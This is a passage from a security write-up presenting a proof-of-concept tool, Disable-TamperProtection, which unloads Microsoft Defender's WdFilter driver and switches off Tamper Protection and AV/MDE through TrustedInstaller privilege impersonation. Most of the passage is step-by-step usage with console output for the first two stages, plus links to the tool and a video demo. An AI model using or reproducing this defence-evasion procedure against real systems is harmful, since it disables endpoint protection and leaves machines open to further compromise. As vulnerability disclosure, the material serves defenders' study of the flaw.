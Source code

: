 A POC has been included, called Disable-TamperProtection which can be found on GitHub here: <https://github.com/m3rcer/Disable-TamperProtection>

*NOTE: VC_redist.x64.exe could be required on the target.*

Required elevated privileges to perform the attack have been incorporated in the POC by using the superUser project codebase as a reference for TrustedInstaller privilege impersonation. 

POC Video Demo: <https://www.youtube.com/watch?v=aGTrjDxMSdU>

The POC works in 3 steps (Admin privileges required):

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe
Sequential Usage: 1 --> 2 --> 3
1:      Unload WdFilter
2:      Disable Tamper Protection
3:      Disable AV/MDE
4:      Restore AV/MDE settings
```

An example, to use the POC is as follows:

1) Unload WdFilter:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key Value: 328010
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to delete WdFilter "Altitude" regkey.
[+] Created process ID: 3744 and assigned additional token privileges.
[+] Execute option 1 to validate!

# Upon 2nd execution if the above output repeats the target isn't vulnerable
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Enumerating WdFilter information:
        Next:   0 | Frame ID:   0 | No. of Instances:   4 | Name:        wdfilter | Altitude:          328010
[+] Restart the system or wait a few minutes for WdFilter to unload.
[+] Execute option 1 to validate!

# Restart to crash and unload WdFilter
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] WDFilter has been successfully unloaded, use option 2 to disable Tamper Protection.
```

2) Disable Tamper Protection:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 2
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 00000000000000C4
[!] Spawning registry with TrustedInstaller privileges to alter Defender "TamperProtection" regkey from 5 to 4.
[+] Created process ID: 7748 and assigned additional token privileges.
[+] Use option '3' to finally Disable AV/MDE.
```
